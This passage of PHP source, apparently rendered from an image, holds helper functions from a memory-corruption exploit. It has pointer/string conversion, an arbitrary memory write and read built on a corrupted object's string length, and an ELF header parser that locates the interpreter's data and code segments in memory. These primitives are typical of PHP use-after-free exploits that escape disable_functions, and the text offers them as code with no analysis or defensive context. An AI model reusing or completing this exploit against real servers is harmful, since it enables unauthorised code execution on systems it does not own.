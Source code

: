 ```php
    }
 
    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
 
    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf('%c',$ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }
 
    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf('%c',$v & 0xff);
            $v >>= 8;
        }
    }
 
    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }
 
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
 
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
 
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
 
            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }
 
        if(!$data_addr || !$text_size || !$data_size)
            return false;
 
        return [$data_addr, $text_size, $data_size];
```